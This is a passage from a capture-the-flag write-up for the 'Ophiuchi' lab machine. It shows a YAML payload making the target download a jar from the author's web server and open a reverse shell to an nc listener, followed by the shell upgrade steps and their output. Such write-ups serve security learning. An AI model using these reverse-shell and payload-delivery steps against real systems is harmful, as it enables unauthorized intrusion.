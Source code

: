 [![trigger.png](/img/ophiuchi/trigger.png)](/img/ophiuchi/trigger.png)

Sending our yaml to parse it we get a callback on our webserver for the payload and a reverse shell on our listener. 

```php
$sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.167.24 - - [03/Jul/2021 03:51:54] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.129.167.24 - - [03/Jul/2021 03:51:54] "GET /yaml-payload.jar HTTP/1.1" 200 -
```

For easier access we upgrade our reverse shell as the tomcat user and fix the terminal size.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.167.24.
Ncat: Connection from 10.129.167.24:33260.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ophiuchi:/$ epxort TERM=xterm
epxort TERM=xterm
epxort: command not found
tomcat@ophiuchi:/$ export TERM=xterm
export TERM=xterm
tomcat@ophiuchi:/$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

tomcat@ophiuchi:/$ stty rows 55 cols 236
tomcat@ophiuchi:/$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/$
```
